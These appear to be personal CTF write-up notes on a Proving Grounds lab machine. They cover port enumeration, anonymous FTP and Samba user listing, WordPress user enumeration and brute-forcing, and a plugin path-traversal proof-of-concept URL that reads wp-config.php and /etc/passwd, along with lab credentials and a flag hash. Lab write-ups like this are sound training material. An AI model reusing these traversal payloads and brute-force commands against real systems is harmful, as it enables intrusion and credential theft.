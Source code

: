# Enumeration 


21/tcp           vsFTPd 3.0.3                                                                     
22/tcp
53/tcp   open   tcpwrapped  syn-ack
80/tcp   open   http        syn-ack      PHP cli server 5.5 or later
139/tcp  open   netbios-ssn syn-ack      Samba smbd 4.3.9-Ubuntu (workgroup: WORKGROUP)
666/tcp  open   tcpwrapped  syn-ack doom?
3306/tcp open   mysql       syn-ack      MySQL 5.7.12-0ubuntu1
12380/tcp open   unknown
123/tcp   closed ntp
137/tcp   closed netbios-ns



## Ftp

![[Pasted image 20230105145119.png]]


Anonymous login success 

![[Pasted image 20230105145208.png]]

## Samba

NetBIOS computer name: RED\x00



![[Pasted image 20230105145915.png]]


```
enum4linux -a $ip

S-1-22-1-1000 Unix User\peter (Local User)
S-1-22-1-1001 Unix User\RNunemaker (Local User)
S-1-22-1-1002 Unix User\ETollefson (Local User)
S-1-22-1-1003 Unix User\DSwanger (Local User)
S-1-22-1-1004 Unix User\AParnell (Local User)
S-1-22-1-1005 Unix User\SHayslett (Local User)
S-1-22-1-1006 Unix User\MBassin (Local User)
S-1-22-1-1007 Unix User\JBare (Local User)
S-1-22-1-1008 Unix User\LSolum (Local User)
S-1-22-1-1009 Unix User\IChadwick (Local User)
S-1-22-1-1010 Unix User\MFrei (Local User)
S-1-22-1-1011 Unix User\SStroud (Local User)
S-1-22-1-1012 Unix User\CCeaser (Local User)
S-1-22-1-1013 Unix User\JKanode (Local User)
S-1-22-1-1014 Unix User\CJoo (Local User)
S-1-22-1-1015 Unix User\Eeth (Local User)
S-1-22-1-1016 Unix User\LSolum2 (Local User)
S-1-22-1-1017 Unix User\JLipps (Local User)
S-1-22-1-1018 Unix User\jamie (Local User)
S-1-22-1-1019 Unix User\Sam (Local User)
S-1-22-1-1020 Unix User\Drew (Local User)
S-1-22-1-1021 Unix User\jess (Local User)
S-1-22-1-1022 Unix User\SHAY (Local User)
S-1-22-1-1023 Unix User\Taylor (Local User)
S-1-22-1-1024 Unix User\mel (Local User)
S-1-22-1-1025 Unix User\kai (Local User)
S-1-22-1-1026 Unix User\zoe (Local User)
S-1-22-1-1027 Unix User\NATHAN (Local User)
S-1-22-1-1028 Unix User\www (Local User)
S-1-22-1-1029 Unix User\elly (Local User)
```

## DNS port 53
None

## Port 666 Doom

random chars when connecting 
![[Pasted image 20230105152748.png]]
![[Pasted image 20230105152756.png]]
![[Pasted image 20230105152805.png]]
![[Pasted image 20230105152856.png]]

## port 12380

![[Pasted image 20230105151650.png]]


```
nikto -h http://192.168.170.148:12380

+ SSL Info:        Subject:  /C=UK/ST=Somewhere in the middle of nowhere/L=Really, what are you meant to put here?/O=Initech/OU=Pam: I give up. no idea what to put here./CN=Red.Initech/emailAddress=pam@red.localhost
                   Ciphers:  ECDHE-RSA-AES256-GCM-SHA384
                   Issuer:   /C=UK/ST=Somewhere in the middle of nowhere/L=Really, what are you meant to put here?/O=Initech/OU=Pam: I give up. no idea what to put here./CN=Red.Initech/emailAddress=pam@red.localhost
+ Start Time:         2023-01-05 08:30:26 (GMT-5)

Entry '/admin112233/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/blogblog/' in robots.txt returned a non-forbidden or redirect HTTP code (200)

```

### blogblog



![[Pasted image 20230105154024.png]]

Looking at source code it's wordpress

```
wpscan --url https://192.168.170.148:12380/blogblog/ -e u --disable-tls-checks

John Smith
john
barry
elly
peter
heather
garry
harry
scott
kathy
tim


```

content of wp-content is visible so we can enumurate plugins

![[Pasted image 20230105163522.png]]

![[Pasted image 20230105163541.png]]
![[Pasted image 20230105163602.png]]
reading the code found that the exploit will read a file on the system and put it inside of a jpg 
```
# POC -
http://127.0.0.1/wordpress/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=[FILEPATH]


https://192.168.98.148/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=../wp-config.php
```

checking /wp-content/uploads

![[Pasted image 20230105164955.png]]

```
curl -k https://192.168.98.148:12380/blogblog/wp-content/uploads/1653418375.jpeg -o wp-config.php 
```
![[Pasted image 20230105165152.png]]

going back to earlier finding /phpmyadmin

## phpmyadmin

root:plbkac
![[Pasted image 20230105165240.png]]

![[Pasted image 20230105165349.png]]

john has ID 1 which probably means he is admin let's change his password easier than cracking it or we don't need to cos wpscan finished bruteforcing and found valid creds 

```
[SUCCESS] - john / incorrect
```
running same exploit again to grap /etc/passwd to check users on the system
```
https://192.168.98.148/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=../../../../etc/passwd
```
doing password spray on the target using the all passwords and users we found earlier 
running password spray 
![[Pasted image 20230105170113.png]]


# Exploitation 


brute forcing wordpress using usernames we got

```
wpscan --url https://192.168.170.148:12380/blogblog/  --disable-tls-checks -U users -P /usr/share/wordlists/rockyou.txt --password-attack wp-login
[SUCCESS] - john / incorrect
[SUCCESS] - kathy / coolgirl                                                                                                                     
[SUCCESS] - garry / football                                                                                                                     
[SUCCESS] - harry / monkey                                                                                                                       
[SUCCESS] - scott / cookie 
```













# Foothold 















# Privesc 

```
ls -laR to list all users directories 
```
found some users that has .bash_history not directing to null
inside JKanode

![[Pasted image 20230105170727.png]]
![[Pasted image 20230105170816.png]]
peter:JZQuyIN5
![[Pasted image 20230105170843.png]]
![[Pasted image 20230105170856.png]]

eee26f145361bebca7a0033f58b9a6cf
# Conclusion
- anonymous login enabled on ftp and samba lead to information disclosure 
- using outdated wordpress lead to exploit and information disclosure to reverse shell
- wordpress was vulnerable to bruteforce
- ssh was vulnerable for password spray 
- user having sudo privileges  on everything 


---
Tags: #ctf #wordpress #hydra 
Resources: [Proving Grounds](https://portal.offensive-security.com/labs/play) 